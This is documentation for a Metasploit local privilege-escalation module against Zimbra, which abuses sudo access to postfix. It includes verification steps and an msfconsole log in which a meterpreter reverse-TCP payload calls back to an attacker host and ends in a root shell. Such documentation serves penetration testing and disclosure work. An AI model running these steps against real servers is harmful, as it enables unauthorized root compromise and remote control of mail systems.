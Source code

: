 ## Vulnerable Application

Currently, as of 2022-10-14, all versions of Zimbra are vulnerable. Presumably
they'll patch it eventually - I reported it to Zimbra.

## Verification Steps

Install Zimbra on any supported Linux version and get a session as the `zimbra`
user. I used `exploit/linux/http/zimbra_cpio_cve_2022_41352` to get a shell
on Oracle Linux 8 - you only need to `rm $(which pax)` you can make a fully
patched host vulnerable, so it's a nice way to test.

You can obviously get a shell however you like. :)

Then:

```
msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                Connection
  --  ----  ----                   -----------                ----------
  1         meterpreter x64/linux  zimbra @ mail.example.org  172.16.166.147:4444 -> 172.16.166.157:47210 (172.16.166.157)

msf6 exploit(linux/http/zimbra_cpio_cve_2022_41352) > use exploit/linux/local/zimbra_postfix_priv_esc
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/zimbra_postfix_priv_esc) > set SESSION 1
SESSION => 1
msf6 exploit(linux/local/zimbra_postfix_priv_esc) > exploit

[*] Started reverse TCP handler on 172.16.166.147:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending stage (3045348 bytes) to 172.16.166.157
[*] Executing: sudo -n -l
[+] The target appears to be vulnerable.
[*] Creating exploit directory: /tmp/.GPjXSraCDY
[*] Writing '/tmp/.GPjXSraCDY/.qjSY8' (250 bytes) ...
[*] Attempting to trigger payload: sudo /opt/zimbra/common/sbin/postfix -D -v /tmp/.GPjXSraCDY/.qjSY8
[*] Sending stage (3045348 bytes) to 172.16.166.157
[+] Deleted /tmp/.GPjXSraCDY
[*] Meterpreter session 5 opened (172.16.166.147:4444 -> 172.16.166.157:36488) at 2022-10-14 13:19:25 -0700

meterpreter > getuid
Server username: root
```

## Options

### SUDO_PATH

The path to `sudo` on the host. If we have a proper environment with `$PATH` set, which we generally do, simply `sudo` is fine.

### ZIMBRA_BASE

The base where Zimbra is installed. Zimbra typically installs to `/opt/zimbra`, and I'm not even sure if it _can_ install elsewhere, so this default should be fine.
